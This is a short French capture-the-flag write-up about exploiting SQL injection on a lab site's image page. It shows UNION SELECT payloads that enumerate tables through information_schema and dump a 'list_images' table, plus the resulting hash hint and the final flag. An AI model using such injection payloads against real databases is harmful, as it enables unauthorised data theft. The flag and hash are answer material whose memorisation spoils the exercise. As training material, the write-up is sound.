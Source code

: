 Comme pour la page members, on vois un comportement étrange mais pas de message d'erreur synthaxe.

Dans un premier temps on vas lister les tables avec le même payload que précedemment:
    1 UNION SELECT table_schema, table_name FROM information_schema.tables

Dans la listes des tables on vois une tables "list_images" :
    1 UNION SELECT title, comment FROM list_images

résultat :
    ID: 1 UNION SELECT title, comment FROM list_images 
    Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
    Url : Hack me ?


Pour corriger une faille sql il faut sanitize l'entrée utilisateurs

flag : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188